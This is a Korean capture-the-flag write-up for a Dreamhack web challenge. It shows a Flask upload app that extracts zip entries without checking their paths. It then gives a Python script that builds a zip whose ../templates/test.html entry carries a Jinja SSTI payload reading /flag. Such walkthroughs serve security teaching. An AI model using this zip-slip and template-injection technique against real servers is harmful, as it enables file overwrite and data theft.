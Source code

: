 ```yaml
---
layout: single
title: "[Dreamhack] 거북이 write-up"
date: 2025-08-26 20:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] 거북이

### 😁 문제 설명

- 집 앞에서 거북이를 주워 어항에 넣어두었는데, 다음 날 보니 사라졌습니다.
  “어항이 높은데… 대체 어떻게 빠져나간 거지?”

<br>

### ✏️ 풀이

문제에 접속하면 파일 업로드 기능이 존재한다.

![image-20250826202947971](/images/2025-08-26-거북이/image-20250826202947971.png)

<br>

아래 소스 코드를 보면 파일을 업로드할 때 /uploads 경로로 파일이 업로드된다. 파일은 /uploads 경로에 숫자로 업로드되고 zip로 업로드하면 경로가 포함되면 /uploads/~~/test.html 이런식으로 업로드 되는 것 같다.

```python
app = Flask(__name__)
UPLOAD_DIR = Path("./uploads").resolve()
UPLOAD_DIR.mkdir(parents=True, exist_ok=True)
count = 1

@app.route("/", methods=["GET"])
def main():   
    return render_template('upload.html')
    
@app.route("/upload", methods=["POST"])
def upload():
    global count
    if "file" not in request.files:
        return jsonify(ok=False, error="no file"), 400

    f = request.files["file"]
    if f.filename == "":
        return jsonify(ok=False, error="empty filename"), 400

    if (f.filename or "").lower().endswith(".zip") or "zip" in (f.content_type or "").lower():
        data = f.read()
        zf = zipfile.ZipFile(io.BytesIO(data))
        names = []
        for info in zf.infolist():
            target = UPLOAD_DIR / info.filename
            if info.is_dir():
                target.mkdir(parents=True, exist_ok=True)
            else:
                target.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(target, "wb") as dst:
                    shutil.copyfileobj(src, dst)
            names.append(info.filename)
        return jsonify(ok=True, saved=names)
    
    ext = Path(f.filename).suffix.lower()
    file_name = f"{count}{ext}" if ext else f"{count}"
    count += 1
    
    out = UPLOAD_DIR / file_name
    out.parent.mkdir(parents=True, exist_ok=True)
    f.save(out)
    return jsonify(ok=True, saved=str(file_name))    
    
@app.route("/test.html", methods=["GET"])
def test_page():
    return render_template("test.html")
    
@app.route("/uploads/<path:filename>")
def serve_uploads(filename):
    return send_from_directory(UPLOAD_DIR, filename, as_attachment=False)
    
app.config.update(PROPAGATE_EXCEPTIONS=False)

@app.errorhandler(Exception)
def _all_errors_to_400(e):
    return jsonify(ok=False, error="bad request"), 400

@app.errorhandler(HTTPException)
def _http_errors_to_400(e):
    return jsonify(ok=False, error="bad request"), 400
    
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

<br>

업로드할 때 아래 소스 코드를 보면 zip를 업로드할 때 파일 안의 이름에 대해서 검증을 제대로 하지 않아서 `../` 를 사용할 수 있다는 것을 알 수 있다.

```python
    if (f.filename or "").lower().endswith(".zip") or "zip" in (f.content_type or "").lower():
        data = f.read()
        zf = zipfile.ZipFile(io.BytesIO(data))
        names = []
        for info in zf.infolist():
            target = UPLOAD_DIR / info.filename
            if info.is_dir():
                target.mkdir(parents=True, exist_ok=True)
            else:
                target.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(target, "wb") as dst:
                    shutil.copyfileobj(src, dst)
            names.append(info.filename)
        return jsonify(ok=True, saved=names)
```

<br>

Dockerfile을 봤을때 flag.txt를 /flag에 저장하였고, jinja SSTI로 flag를 읽기 위해서는 render_template 함수를 사용하는 곳이 test.html 밖에 없기 때문에 이를 덮어야 한다.

```python
@app.route("/test.html", methods=["GET"])
def test_page():
    return render_template("test.html")
```

<br>

/test.html을 덮어쓰기 위해서 ../로 /uploads 경로를 탈출하고 /templates/test.html 파일을 덮을 수 있다. flag는 /flag에 위치해 있기 때문에 SSTI payload가 포함된 test.html을 zip로 압축해 업로드하면 된다.

```python
import zipfile

payload = "{{ url_for.__globals__['__builtins__']['open']('/flag').read() }}"
target = "../templates/test.html"

with zipfile.ZipFile("exploit.zip", "w", zipfile.ZIP_DEFLATED) as z:
    z.writestr(target, payload)
```

![image-20250826202926292](/images/2025-08-26-거북이/image-20250826202926292.png)